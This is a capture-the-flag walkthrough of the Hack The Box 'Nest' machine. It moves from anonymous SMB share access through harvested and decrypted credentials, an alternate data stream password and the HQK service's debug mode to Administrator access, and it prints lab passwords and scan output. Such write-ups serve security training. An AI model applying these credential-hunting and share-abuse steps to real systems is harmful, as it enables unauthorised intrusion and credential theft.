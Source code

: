 # Nest

**Date:** 30/09/2024

## Enumeration

I performed a full port scan on the target:

```bash
nmap -p- $(cat target) -v -oN full_scan
```

**Open Ports:**
```
PORT     STATE SERVICE
445/tcp  open  microsoft-ds
4386/tcp open  unknown
```

After a detailed scan, I found additional information about the services:

```
PORT     STATE SERVICE       VERSION
445/tcp  open  microsoft-ds?
4386/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>
```

### SMB Service (Port 445)

I enumerated the SMB shares without authentication:

```bash
smbclient -L=$(cat target) -N
```

**Shares Found:**
```
Sharename       Type      Comment
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Data            Disk      
IPC$            IPC       Remote IPC
Secure$         Disk      
Users           Disk      
```

I could access the `Data`, `Secure$` and `Users` shares without a password. Inside the `Users` share, I found multiple user directories:

```
Administrator, C.Smith, L.Frost, R.Thompson, TempUser
```

In the `\\HTB-NEST\Data\Shared\Templates\HR\` folder, I discovered the following TempUser credentials:

```
Username: TempUser
Password: welcome2019
```

### SMB Exploration (TempUser Credentials)

Using the TempUser credentials, against the `Data` share, I gained more access and found an encrypted password in the `IT\Configs\RU Scanner\` directory:

```xml
<Username>c.smith</Username>
<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
```

In the `IT\Configs\NotepadPlusPlus\config.xml` file I also found an interesting share file:

```xml
<History nbMaxFile="15" inSubMenu="no" customLength="-1">
    <File filename="C:\windows\System32\drivers\etc\hosts" />
    <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
    <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
</History>
```

I look throw the `\\HTB-NEST\Secure$\IT\Carl\` folder and I located a VB project in `\IT\Carl\VB Projects\WIP\RU\`. After downloading and analyzing it, I decrypted C.Smith's password: `xRxRxPANCAK3SxRxRx`.

![Screenshot 2024-10-02 154620](https://github.com/user-attachments/assets/572e3e9e-4994-49b8-a61b-0e2c11b87aef)


### Privilege Escalation (C.Smith Credentials)

With C.Smith's credentials, I accessed his user folder and found the `user.txt` flag. I also discovered the `HQK_Config_Backup.xml` file, which indicated that the Reporting Service on port 4386 was related to LDAP.

Using `allinfo` on the file `Debug Mode Password.txt`, I uncovered an Alternate Data Stream (ADS) that contained the password: `WBQ201953D8w`.

### Exploiting HQK Reporting Service (Port 4386)

I connected via Telnet to port 4386:

```bash
telnet $(cat target) 4386
```

Using the `DEBUG` command and the password from the ADS, I enabled debug mode. I explored the directories and found the Administrator's encrypted password:

```
└─# telnet $(cat target) 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>DEBUG WBQ201953D8w                                                         

Debug mode enabled. Use the HELP command to view additional commands that are now available
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  COMPARISONS
[1]   Invoices (Ordered By Customer)
[2]   Products Sold (Ordered By Customer)
[3]   Products Sold In Last 30 Days

Current Directory: ALL QUERIES
>SETDIR ..

Current directory set to HQK
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>SETDIR LDAP

Current directory set to LDAP
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>SHOWQUERY 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

I try to decrypt the password with RUScanner, but it gave me a Padding error. Looking better over C.Smith folder, there were also an executable, I download it:

```
smb: \C.Smith\HQK Reporting\AD Integration Module\> ls
  .                                   D        0  Fri Aug  9 08:18:42 2019
  ..                                  D        0  Fri Aug  9 08:18:42 2019
  HqkLdap.exe                         A    17408  Wed Aug  7 19:41:16 2019

		5242623 blocks of size 4096. 1839800 blocks available
```

I decompile the executable with iLSpy and I found out other parameters:

![Screenshot 2024-10-03 070300](https://github.com/user-attachments/assets/09824152-9456-4e75-ae61-50687598c855)

After modifying the RUScanner code to adjust the decryption padding, I successfully decrypted the Administrator password: `XtH4nkS4Pl4y1nGX`.

![Screenshot 2024-10-03 070410](https://github.com/user-attachments/assets/47063e3e-5d7b-4c6a-9287-d35db8e1710f)


With this, I accessed the system as Administrator and retrieved the root flag.

---
